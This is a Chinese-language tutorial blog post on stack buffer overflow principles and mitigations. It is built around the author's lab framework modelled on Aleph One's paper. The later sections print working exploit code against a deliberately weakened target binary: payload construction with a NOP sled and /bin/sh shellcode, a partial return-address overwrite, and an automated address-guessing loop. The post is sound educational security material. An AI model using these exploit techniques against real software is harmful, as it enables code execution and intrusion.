







**回归一下"老本行", 研究了一下缓冲区溢出的初步原理. 注意到安全是开发的一体两面(注意力惊人.jpg)**.

由于推动一生一芯学习进度需要, 最近开始深入学习 Linux C 编程的相关内容, 结合[我自身的专业背景](../../note/index.md#About-Me), 在学习[函数接口](../../note/lang/c/函数接口.md#strcpy--strncpy)时花了点时间深入研究了一下**缓冲区溢出(*Buffer Overflow*, 以下简称BOF)**的原理和利用方式, 同时基于经典论文[Smashing The Stack For Fun And Profit (by Aleph One)](https://inst.eecs.berkeley.edu/~cs161/fa08/papers/stack_smashing.pdf)借助AI编写一个BOF的实验框架, 本文将基于该实验框架对BOF的原理, 利用及现代系统上常见的防御措施做一个总结记录.

实验框架源码见GitHub: [sec/bufoverflow | virtualguard101/vglab](https://github.com/virtualguard101/vglab/tree/main/sec/bufoverflow), **请勿用于非法用途, 仅供学习研究使用**.

<!-- more -->

## BOF原理详解

### BOF的定义

缓冲区是为一段数据预留的有限内存区域. 例如 `char buf[8]` 只能容纳 8 个字节, 下标范围是 `0` 到 `7`. 如果程序把超过容量的数据写入 `buf`, 多出的字节不会自动被截断; 在 C 中, 这会越过数组对象的边界, 产生未定义行为. 这类问题称为缓冲区溢出 (*Buffer Overflow*, BOF)[^bof-overview].

一个常见诱因是复制操作没有同时约束源数据长度与目标容量:

```c
char buf[8];
strcpy(buf, input);  // strcpy 不知道 buf 的容量
```

`strcpy` 会一直复制到源字符串的 `'\0'`, 因而 `input` 最多只能有 7 个有效字节, 才能连同结尾的 `'\0'` 一起放进 `buf`. 长度检查缺失、检查与复制使用不同长度、计算分配大小时整数溢出, 以及边界条件的 off-by-one 错误, 都可能导致写越界. 关键不在于某个函数名称本身, 而在于写入操作是否能证明目标范围足够大.

### BOF的常见形式

缓冲区溢出可以按目标对象通常所在的内存区域分类. 这些名称描述的是被越界写入的对象, 不代表每个程序都采用完全固定的内存布局.

1. **栈缓冲区溢出**: 目标是函数调用期间的局部数组等对象. 例如局部数组容量固定, 但程序把更长的输入复制进去. 越界写入可能影响其他局部数据或调用状态, 但是否相邻以及具体后果取决于编译器和运行环境[^cwe-121].

2. **堆缓冲区溢出**: 目标是动态分配的对象, 例如通过 `malloc` 取得的内存. 分配时的长度计算或后续写入边界若不正确, 就可能越过该对象的末尾. 越界区域可能属于另一个对象或分配器管理的数据, 但不能仅凭堆上相邻就推断后果[^cwe-122].

3. **全局或静态对象溢出**: 目标是具有静态存储期的数组或缓冲区. 它们通常不在函数栈帧或动态分配堆中, 但同样需要确保每次写入都位于对象边界内.

另外, **off-by-one** 是常见的边界计算错误, 不限于某一种存储区域. 例如:

```c
#include <stddef.h>

char buf[8];

for (size_t i = 0; i <= sizeof buf; ++i) {
    buf[i] = 'A';  // i == 8 时越过有效下标 0..7
}
```

这里把 `<` 写成了 `<=`, 导致循环多写一个字节. 对字符串操作而言, 忘记为结尾的 `'\0'` 留空间也可能产生类似问题[^cwe-193]. 而整数溢出、长度单位混淆或编码后数据变长, 则可能让程序低估所需容量: 这些错误本身不一定就是缓冲区溢出, 但若最终造成越界读写, 就会形成相应的边界问题.

本文主要讨论越界写入. 越界读取通常称为缓冲区过读 (*buffer over-read*), 应与写入型 BOF 区分; 两者都违反对象边界, 但可能造成的影响不同.

### BOF现象描述

一次越界写入通常先破坏的是目标对象后方的内存. 如果目标数组位于栈帧中, 附近可能还有其他局部数据以及调用所需的控制信息; 若数组在堆上, 相邻对象或分配器管理数据也可能受到影响. 具体排列取决于编译器、优化、架构和运行时, 不能把某一种栈帧图当作所有程序的固定布局.

<!-- <iframe src="/blog/posts/assets/bof-principle/"
        title=""
        style="width:100%;height:620px;border:0;">
</iframe> -->

越界写入并不等于“必然覆盖返回地址”, 更不等于“必然取得控制权”. 结果可能是数据被悄悄改坏、程序稍后崩溃, 或者在满足特定条件时影响控制流.

即使当下没有崩溃, 也不能据此判断访问是安全的: 非法写入触发的未定义行为可能在不同编译器、优化级别或运行环境中表现不同. OWASP 对缓冲区溢出攻击影响的概述也包括服务中断、数据破坏及更严重的控制流风险[^bof-attack].

### 从漏洞到可利用条件

可以把原理拆成三个环节:

1. **存在越界写入**: 程序未能保证写入长度不超过目标对象的可用空间.

2. **越界影响了有意义的状态**: 越界字节碰到了后续会使用的数据或控制信息. 地址相邻本身并不能证明某个字段一定会被覆盖或读取.

3. **影响可被稳定触发并产生安全后果**: 输入可控性、执行路径、内存布局及平台防护等条件共同决定影响. 崩溃只是可能的结果之一, 不是利用成功的证据.

经典栈溢出讨论常聚焦于破坏栈上的控制信息, 但现代系统的栈布局并非固定模板, 且存在多层缓解措施. 栈保护值可检测部分栈写越界, [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)/[PIE](https://en.wikipedia.org/wiki/Position-independent_code) 增加地址布局的不确定性, [NX](https://hacktricks.wiki/en/binary-exploitation/common-binary-protections-and-bypasses/no-exec-nx.html) 限制从不可执行内存取指. 这些机制能提高攻击难度, 但不能修复越界访问本身, 也不能单独证明程序不存在 BOF. 根本措施仍是让容量与长度在写入前保持一致, 并对输入边界作明确验证.

## 常见的风险因素

缓冲区溢出通常不是某个函数单独“造成”的, 而是写入端没有可靠地知道目标对象的容量, 或者没有把这个容量贯彻到数据处理的每一步. 下列因素常见于 C/C++ 程序, 也可以作为代码审查时的检查清单.

### 容易引入越界写入的代码模式

1. **使用无法约束目标容量的接口**: `gets` 不提供输入上限; `strcpy`、`strcat`、`sprintf` 和 `vsprintf` 也不会根据目标数组的实际容量自动截断. 类似地, `scanf("%s", buf)` 没有字段宽度时会一直读取到空白字符[^cwe-242][^cwe-120]:

    - 标准输入无限制输入上限

        ```c
        void demo_gets(void)
        {
            char buffer[8];
            puts("[2] gets(buffer[8]) - more than 7 characters overflows (try 16 As and Enter)");
            printf("input> ");
            fflush(stdout);
            /* BUG: gets 无法限制读入长度, POSIX.1-2008 标记 obsolete, C11 直接删除 */
            gets(buffer);		/* gcc 会警告: the `gets' function is dangerous */
            printf("got: %s\n", buffer);
        }
        ```

        这里的调用了 `get()` 函数从标准输入中读取数据, 但没有任何额外机制限制用户输入的长度, 如果尝试输入超过 7 个字符, 会引发段错误:

        

        图中的`signal 11`表示程序在运行时遭遇了非法的内存访问[^posix-signals], 也就是所谓的段错误(`SIGSEGV `, `segmentation fault`).

    - 字符串操作函数的无界操作

        ```c
        void demo_strcpy(void)
        {
            char buffer[16];
            char large_string[256];

            memset(large_string, 'A', sizeof(large_string) - 1);
            large_string[sizeof(large_string) - 1] = '\0';

            puts("[1] strcpy(buffer[16], large_string[256])");
            /* BUG: strcpy 不检查目标大小, 256 字节灌进 16 字节的栈缓冲区 */
            strcpy(buffer, large_string);
            printf("survived: %zu bytes copied (skeptically)\n", strlen(buffer));
        }
        ```

        这里的 `strcpy` 调用将一个 256 字节的字符串复制到一个只有 16 字节的缓冲区中, 导致缓冲区溢出. 同样会引发段错误:

        

2. **自写读入或复制循环没有上限**: 逐字节读取直到换行、分隔符或 EOF, 若循环只检查输入是否结束而不检查剩余容量, 长输入就可能写过数组末尾. 下面的代码展示了这种易错形式, 安全版本同时限制写入长度, 并为字符串终止符预留一个字节:

    ```c
    void demo_getchar_loop(void)
    {
        char buffer[16];
        size_t i = 0;
        int c;

        puts("[5] while ((c = getchar()) != '\\n') buffer[i++] - unbounded loop");
        printf("input> ");
        fflush(stdout);
        /* 论文原文的循环没有 i < sizeof(buffer), 长输入直接写穿 */
        while ((c = getchar()) != '\n' && c != EOF && i < sizeof(buffer) - 1)
            buffer[i++] = (char)c;
        buffer[i] = '\0';
        printf("got: %s\n", buffer);
    }
    ```

3. **误用带长度参数的函数**: 长度参数并不天然等于目标容量. 例如把 `strlen(src)` 当成 `strncpy` 的目标上限, 仍然可能写过较小的目标数组; 即使上限没有越界, `strncpy` 在源字符串过长时也不保证自动补 `'\0'`. `snprintf` 的返回值表示本来需要写入的长度, 应检查它是否达到或超过目标容量, 以便识别截断.

### 容量计算与输入数据流

- **长度边界或终止符计算错误**: 把 `<` 写成 `<=`, 或者忘记字符串还要存放结尾的 `'\0'`, 都可能多写一个字节. 若缓冲区大小由输入长度计算, 乘法、加法溢出或有符号/无符号转换也可能让分配尺寸小于后续实际写入量[^cwe-131][^cwe-193].

- **把输入长度误当成输出长度**: 验证应覆盖所有后续转换. 转义、编码、格式化或拼接可能扩张数据; 仅在转换前检查源字符串长度, 并不能证明转换后的输出能放进目标缓冲区[^cwe-131][^str31-c].

- **字节、字符和元素单位混淆**: C 的数组容量和多数内存操作长度以字节计, 但上层代码可能使用字符数、宽字符数或元素个数. 若单位没有明确区分, 容量估算就容易偏小. 还要确认容量是否包含字符串终止符.

- **缓冲区容量信息在函数边界丢失**: 数组作为参数传递时会退化为指针, 被调用函数通常无法从指针本身得知数组容量. 若接口只传数据指针、不传长度或容量, 就容易依赖调用者的隐含约定; `sizeof(ptr)` 也只是指针大小, 不是原数组大小.

- **数据来源或处理路径未纳入检查**: 输入不只来自键盘, 也可能来自命令行参数、文件、网络协议、解析器或其他库函数返回值. 即使入口处做过长度检查, 后续组合、解码、转换或状态变化仍可能破坏原有假设; 检查点应与实际写入的目标及最终输出长度对应.

!!! warning "哪些情况会放大实际风险"
    越界写入是否能被触发及其后果, 还取决于输入是否可由外部控制、相关代码路径是否可达、触发是否稳定, 以及越界影响了什么数据. 这些条件影响漏洞的可利用性和影响范围, 但不改变“写入超出对象边界”本身就是缺陷这一事实[^cwe-787].

## bufoverflow

仅凭概念和原理, 很难理解 BOF 如何从一次越界写入演变为控制流劫持. 论文[Smashing The Stack For Fun And Profit (by Aleph One)](https://inst.eecs.berkeley.edu/~cs161/fa08/papers/stack_smashing.pdf)给出了经典的栈溢出思路, 但论文所处的 i386 环境与当前常见的 x86_64 环境不同. 这个实验框架以论文为线索, 把不安全写入、栈帧观察、返回地址覆盖、shellcode 执行和防御措施串成可运行的教学流程.

实验并不是在默认安全配置下展示一个可直接复用的攻击工具. 靶程序使用 GCC 在 x86_64 Linux 环境中编译, 并刻意关闭栈保护、PIE 和 NX; 攻击演示还通过 `setarch -R` 关闭当前进程的 ASLR. 这些设置是为了让经典栈攻击便于观察, 不是生产环境的建议配置. 具体偏移和结果会随编译器、优化级别、ABI 和运行环境改变.

### 控制流劫持

BOF利用的一个核心思想就是控制流劫持.

前面我们提到, BOF的本质就是**把"数据"写成了"代码执行的下一步地址"**. 也就是说, 当函数返回时, CPU 会从栈中取出返回地址并跳转到该位置执行. 如果攻击者能把输入数据写入栈上返回地址槽, 并让该地址指向攻击者控制的代码, 就可能在函数返回时劫持控制流.

`dissect` 的 `layout` 输出展示了一个启用传统栈帧指针的 x86_64 构建中, 局部数组与函数调用状态的相对位置:



图中的 `buffer[16]` 起始地址是 `0x...2a10`, 保存的 RBP 位于 `0x...2a20`, 返回地址槽位于 `0x...2a28`. 因此, 从缓冲区起点到返回地址槽的偏移是 24 字节. 若按从 1 开始数的字节序号, 字节 1..16 属于数组, 字节 17..24 对应 saved RBP, 字节 25..32 对应 8 字节的返回地址. 这里的 24 是地址差, 不是所有函数都通用的溢出偏移.

这个位置关系解释了越界写入为何有机会碰到控制信息, 但要说明的是, `layout` 模式本身只用 `memset` 在数组边界内填充 `A`, 再读取并打印邻近槽位; 它没有执行越界写入. 数组、saved RBP 和返回地址是否按图中顺序相邻, 取决于具体二进制的编译器、选项和栈帧布局.

`redirect` 模式进一步隔离演示了返回地址如何改变控制流. 它不是通过缓冲区溢出覆盖返回地址, 而是用 `buffer1 + 21` 直接定位并修改返回地址槽.

```c
/**
 * 把本函数栈上的返回地址 += RET_SKIP_DELTA, 跳过 main 中
 * call 之后的赋值语句(g_x = 0/1;), 让函数 return 直达 printf.
 * 这就是"不弹 shell, 只劫持一次控制流"的最小溢出演示.
 */
static volatile int g_x;

/* x86_64 gcc -O0 布局下, buffer1 起点到 RET 槽的距离.
 * 论文 i386 上是 12;
 * 这里实测(gcc 16 -O0): buffer1 在 rbp-0xd,
 * RET 槽恒在 rbp+8 -> 21. 计算方法:
 *   objdump -d build/dissect | sed -n '/<ret_redirect>:/,/ret/p'
 *   找 lea -0xN(%rbp)(buffer1 的地址)-> RET_OFFSET = 8 + N */
#define RET_OFFSET_FROM_BUF 21

/* 返回地址要加的步长: call 返回点 = main 里 g_x = 0;(movl 共 10 字节),
 * 再 +10 跳过 g_x = 1; (同样 10 字节), 直达 printf 的取值指令.
 * 论文原稿写 +8 是笔误(论文自注 "should be 10"). 差 1 字节就会落在
 * 指令中间, 然后触发SIGSEGV/SIGILL. */
#define RET_SKIP_DELTA 20

__attribute__((noinline))
static void ret_redirect(void)
{
	char buffer1[5];
	char buffer2[10];
	int *ret;

	ret = (int *)((char *)buffer1 + RET_OFFSET_FROM_BUF);
	printf("[redirect] buffer1 @ %p, patching RET slot @ %p (+%d)\n",
	       (void *)buffer1, (void *)ret, RET_OFFSET_FROM_BUF);
	*ret += RET_SKIP_DELTA;	/* 跳过 call 返回后的赋值语句 */
}

int main()
{
    printf("\n------------- return address redirect -------------\n");
	ret_redirect();
	g_x = 0;
	g_x = 1;	/* 应被跳过: ret 已被改, 函数 return 直达下一行 */
	printf("g_x = %d  (expect 0: assignment \"g_x = 1\" was skipped)\n", g_x);
	return 0;
}
```

对应构建产物的关键反汇编如下:

```asm
; main 中调用 ret_redirect
401363: call   40128e <ret_redirect>   ; call 将下一条指令地址 0x401368 压栈
401368: mov    DWORD PTR [rip+0x2d1a], 0x0 ; g_x = 0
401372: mov    DWORD PTR [rip+0x2d10], 0x1 ; g_x = 1
40137c: mov    eax, DWORD PTR [rip+0x2d0a] ; 读取 g_x

; ret_redirect 的核心片段
401296: lea    rax, [rbp-0xd]           ; buffer1 起点: rbp - 13
40129a: add    rax, 0x15               ; +21, 得到 rbp + 8 的返回地址槽
...
4012c3: mov    rax, QWORD PTR [rbp-0x8] ; 取出返回地址槽指针
4012c7: mov    eax, DWORD PTR [rax]    ; 读取返回地址低 4 字节
4012c9: lea    edx, [rax+0x14]         ; 地址增加 20
4012cc: mov    rax, QWORD PTR [rbp-0x8] ; 重新取回返回地址槽指针
4012d0: mov    DWORD PTR [rax], edx    ; 写回低 4 字节
4012d3: leave
4012d4: ret
```

标准栈帧下, `call` 把调用点之后的地址压入栈中; `ret` 再从栈顶取出地址并装入指令指针. 此处返回地址原为 `0x401368`, `ret_redirect` 将其低 4 字节增加 `0x14`, 使 `ret` 返回到 `0x40137c`. 该构建的非 PIE 地址低于 4 GiB, 且本次加法没有从低 4 字节向高位进位, 所以只写回低 4 字节即可得到这个目标地址. 因而 `main` 中从 `0x401368` 到 `0x40137b` 的两次赋值都没有执行, `g_x` 保持初始值 0. 这正是截图中 `g_x = 0` 的原因. 代码地址和 `buffer1 + 21` 都是该次构建的结果, 重新编译后可能变化.

从 C 语言角度看, `buffer1 + 21` 已越过 `buffer1` 数组对象, 再通过 `int *` 修改栈中的返回地址也不属于可移植的标准操作; 这里解释的是指定编译产物的机器行为, 不是推荐的 C 编程方式.

!!! tip "演示与实际的区别"
    真实的栈 BOF 把"直接修改返回地址"替换成了"输入越过数组边界并写到返回地址槽". 如果写入的字节能控制该槽中的值, 函数执行到 `ret` 时, 后续指令位置就可能被输入影响, 从而发生控制流劫持. 因此, `dissect` 的 `redirect` 是对 `ret` 机制的可观察演示, 不是一次由外部输入触发的 BOF; `layout` 展示的距离也不能直接套用到其他函数或构建产物.

### 靶程序

`vulnerable.c` 是实际攻击链使用的靶程序. 它把 `argv[1]` 通过 `strcpy` 复制到固定大小的局部数组, 并提供可选的 `VULN_DEBUG=1` 地址观测.

靶程序的核心缺陷是:

```c
char buffer[128];
strcpy(buffer, argv[1]);
```

`strcpy` 不知道 `buffer` 的容量, 会继续复制直到遇到源字符串的 `'\0'`. 当输入长于缓冲区时, 写入可能越过数组边界. 如果越界数据覆盖了返回地址, `ret` 就可能跳到输入所指定的位置. 因此, **越界写入是漏洞条件, 返回地址被覆盖是控制流转移的手段, 跳转到可执行内容则是这个实验的利用结果**, 三者是相互独立的步骤.

现代环境下, 仅观察到崩溃并不能说明控制流已经被成功接管. 是否能覆盖到目标数据, 输入中的字节是否能完整送达, 返回地址是否指向合适位置, 以及该内存是否允许执行, 都会影响结果. 实验中的 `VULN_DEBUG=1` 可显示缓冲区和返回地址槽位置, 用来帮助理解地址猜测; 实际攻击不应假定调试输出或固定地址始终可用.

#### 堆栈布局

函数调用时, `call` 会保存返回位置; 函数返回时, `ret` 从栈中取出该地址并交给指令指针. 若局部缓冲区之后的栈数据与返回地址在当前构建中相邻, 超出缓冲区的写入就可能依次覆盖保存的帧指针和返回地址.

`vulnerable.c` 中的目标数组是 `char buffer[128]`. 在实验所用构建下, 攻击代码按以下偏移组织输入:

```text
低地址                                                                    高地址
┌───────────────── buffer[128] ─────────────────┬─ saved RBP ─┬─ return addr ─┐
│ B+0                                      B+127│ B+128..135  │  B+136..143   │
└───────────────────────────────────────────────┴─────────────┴───────────────┘
                                                                ▲
                                返回地址槽占 8 字节; 我们只覆盖其低 6 字节
```

这里的 `B+136` 是该实验计算得到的返回地址槽位置, 不是 C 语言或 x86_64 ABI 对所有函数都保证的固定偏移. 编译器可以改变局部变量布局和栈帧形状; `dissect.c` 的 `layout` 模式用于观察当前二进制的实际位置, 而不是证明所有程序都遵循同一个排列. 栈整体向低地址增长, 也不意味着栈帧内每个对象的相对次序都固定.

### 攻击模拟

#### 攻击链概念

实验将攻击链拆成几个可检查的步骤:

1. **准备输入**: 攻击端构造超过目标缓冲区容量的数据.

2. **越界写入**: 靶程序执行无边界检查的 `strcpy`, 输入继续覆盖缓冲区之后的栈数据.

3. **改写返回位置**: payload 中对应位置的地址字节覆盖返回地址的一部分.

4. **转移执行**: 函数执行 `ret` 后, 控制流被导向缓冲区附近; NOP 雪橇用于扩大可命中的地址范围, 随后执行 shellcode.

5. **确认结果**: 自动探测模式通过管道向目标输入一条命令, 并检查输出中是否出现标记. 这比只看退出码更能区分目标正常退出与 shell 确实执行了命令.

#### x86_64下的攻击链实现

攻击链的渗透逻辑和 payload 的构造逻辑实现于 `exploit.c` 中, 针对 x86_64 Linux 的几个关键设计如下:

#### Payload 布局与构造代码

实验使用的 payload 共 142 字节:

```text
[ NOP × 78 ][ shellcode × 42 ][ scratch × 16 ][ 猜解地址低 6 字节 ][\x00 (strcpy 追加)]
   0 .. 77      78 .. 119         120 .. 135       136 .. 141             142
 ↑NOP Sled   ↑execve("/bin/sh") ↑shellcode后   ↑正好压在return addr
                                 的填充/隔离区   的字节0..5
```

`exploit.c` 先用常量把目标栈帧和 payload 长度关联起来:

```c
#define NOP             0x90
#define RET_SLOT_OFF    (DEFAULT_BUF_SIZE + 8)  /* 136 */
#define ADDR_BYTES      6
#define STACK_SCRATCH   16
#define PAYLOAD_SIZE    (RET_SLOT_OFF + ADDR_BYTES)  /* 142 */
```

`DEFAULT_BUF_SIZE` 在 `common.h` 中定义为 128. 这个实验假设返回地址槽紧跟在 128 字节缓冲区和 8 字节 saved RBP 之后, 所以返回地址相对缓冲区起点的偏移是 `128 + 8 = 136`. `RET_SLOT_OFF` 既是返回地址槽偏移, 也是 payload 中地址字节开始的位置. 这些数值对应本实验构建, 不应作为其他二进制的通用偏移.

payload 的实际组装集中在 `build_payload()`:

```c
size_t sc_len = strlen(shellcode);
size_t sled = RET_SLOT_OFF - sc_len - STACK_SCRATCH;
size_t i = 0;

memset(out, NOP, sled);
i = sled;
memcpy(out + i, shellcode, sc_len);
i += sc_len;
memset(out + i, NOP, STACK_SCRATCH);
i += STACK_SCRATCH;

for (int k = 0; k < ADDR_BYTES; k++)
    out[i++] = (unsigned char)((guess >> (8 * k)) & 0xff);

for (size_t k = 0; k < i; k++)
    if (out[k] == 0)
        return 0;
return i;
```

各段代码与 payload 图中的区域一一对应:

- **NOP 雪橇**: `sled = RET_SLOT_OFF - sc_len - STACK_SCRATCH` 先算出地址字段之前剩余的空间; `memset(out, NOP, sled)` 将它填充为 `0x90`. 本例中 `sc_len` 为 42, 因此 `sled = 136 - 42 - 16 = 78`. 返回地址若指向这 78 个 NOP 中的某处, CPU 会逐条执行 NOP 并到达后面的 shellcode, 这样就无需精确命中 shellcode 首字节. 但是雪橇只扩大可命中的区间, 不会消除地址猜测和可执行栈等前提.

- **shellcode 与无 `NUL` 约束**: `memcpy(out + i, shellcode, sc_len)` 将 `shellcode.h` 中的 42 字节代码原样放在偏移 78..119. 代码通过 `strlen` 确定复制长度, 因而该字符串中不能含有 `'\0'`; 否则长度会提前结束. 另外, `run_once()` 把 payload 复制进 `arg` 后将 `arg[len]` 设为 `'\0'`, 再把它作为 `argv` 传给目标. 靶程序中的 `strcpy` 也会在第一个 NUL 停止复制, 所以 payload 中间不能有零字节. shellcode 自身需要的 `"/bin/sh"` 结尾 NUL 则由 shellcode 在运行时写入, 不是预先放进输入字节流.

- **scratch 区域**: shellcode 后面用 `memset(out + i, NOP, STACK_SCRATCH)` 放入 16 字节占位区, 即偏移 120..135. 按本实验返回地址偏移 136 计算, `ret` 取出地址后 RSP 指向偏移 144; shellcode 随后的两次 8 字节 `push` 会分别写入偏移 136..143 和 128..135. 后一次写入会落在 scratch 的后 8 字节, 而不是覆盖偏移 78..119 的 shellcode 指令. 因此 scratch 是 shellcode 代码之后的填充/隔离区, 不是需要执行的数据. 这 16 字节是布局的一部分, 不能在保持 `RET_SLOT_OFF` 不变时简单删掉, 否则地址字段之前的 NOP 数量和 shellcode 所处位置都会改变.

- **部分覆盖返回地址**: 循环按 `k = 0..5` 从低位到高位写入 `guess` 的 6 个字节. x86_64 是小端序, 因此最低有效字节先写入返回地址槽的最低地址处. 只写低 6 字节的前提是: 本例目标栈地址的高位原本为零, 而追加的字符串终止符恰好覆盖返回地址的第 7 字节并保持其为零; 第 8 字节也未被覆盖. 这是实验地址形态和 payload 长度共同满足的条件, 并非所有 x86_64 地址都适用.

`build_payload()` 还会逐字节检查刚组装的 142 字节中是否出现零字节. 若猜测地址的某个低 6 字节为零, 函数报告错误并返回 0, 因为此处的零会让 `strcpy` 提前停止, 后续返回地址字节就无法到达目标栈帧.

#### 参数传递与字符串终止符

`run_once()` 明确区分“payload 字节”与“供 `exec` 使用的 C 字符串”:

```c
char arg[PAYLOAD_SIZE + 1];
memcpy(arg, payload, len);
arg[len] = '\0';
...
execl(target, target, arg, (char *)NULL);
```

142 字节 payload 本身不含 NUL; `arg` 多分配的 1 字节用于满足 `argv` 元素必须以 NUL 结尾的约定. 当目标执行 `strcpy(buffer, argv[1])` 时, 这个终止符也会被复制到缓冲区之后. 在本实验的布局中, payload 偏移 136..141 覆盖返回地址低 6 字节, 偏移 142 的终止符落到返回地址第 7 字节. 这说明为什么 payload 总长是 142, 但传给 `strcpy` 的栈写入还包含最后那个 NUL 字节.

`execl()` 让攻击程序在子进程中启动独立的靶程序, 并将 `arg` 作为该程序的第一个用户参数. 因而攻击端负责构造字节串, 真正执行 `strcpy` 并发生越界写入的是靶程序; 这与在攻击程序自己的栈上直接改返回地址不同.

#### 地址来源与自动猜解代码

地址有三种来源. `-l` 模式在教学靶程序开启 `VULN_DEBUG=1` 时读取其打印的缓冲区地址, 用于观察“要猜的地址是什么”; `-a` 可直接指定候选地址; 未指定 `-a` 时, 单发和自动模式会使用攻击程序的栈指针估算:

```c
static unsigned long get_sp(void)
{
    unsigned long sp;
    __asm__ volatile ("mov %%rsp, %0" : "=r" (sp));
    return sp;
}

unsigned long guess = (addr == DEFAULT_ADDR)
    ? (unsigned long)((long)get_sp() - offset)
    : addr;
```

自动模式在该基准附近按指定步长向正负方向尝试:

```c
for (int d = 0; d <= max; d += step) {
    long offs[2] = { d, -d };
    for (int k = 0; k < 2; k++) {
        unsigned long g = (unsigned long)((long)get_sp() - offs[k]);
        size_t l = build_payload(payload, g);
        if (!l)
            continue;
        if (run_once(payload, l, target, 1, verbose) == 1)
            return 0;
    }
}
```

这里的 `get_sp()` 读取的是**攻击程序**当前的 RSP, 不是靶程序缓冲区地址的直接读数. 攻击程序与靶程序处于不同进程, 参数和环境也会影响各自栈布局, 所以该值只是扫描起点的启发式估算. `-l` 通过靶程序的调试输出获得地址, 则是为了教学验证而设置的地址泄露路径, 不能视为现实利用中必然存在的能力. 此模式把读到的缓冲区起点直接作为候选地址; 该地址落在 NOP 雪橇开头, 而不是 shellcode 的首字节, 仍可借雪橇继续执行.

自动探测的 `run_once(..., probe=1, ...)` 还会用管道把命令送给目标, 并检查输出标记:

```c
const char *probe_cmd = "echo " SHELL_MARKER "; exit\n";
write(in_fd[1], probe_cmd, strlen(probe_cmd));
...
int hit = (strstr(buf, SHELL_MARKER) != NULL);
```

程序没有仅凭目标进程退出码判断成功, 而是要求输出中出现 shell 执行命令后的标记. 因此 `-z` 是自动扫描加命中确认, 不是交互式终端; 单发交互模式则让目标继承当前终端输入输出. 关闭 ASLR 能让地址更稳定, 但扫描结果仍受运行环境、栈状态和地址候选范围影响.

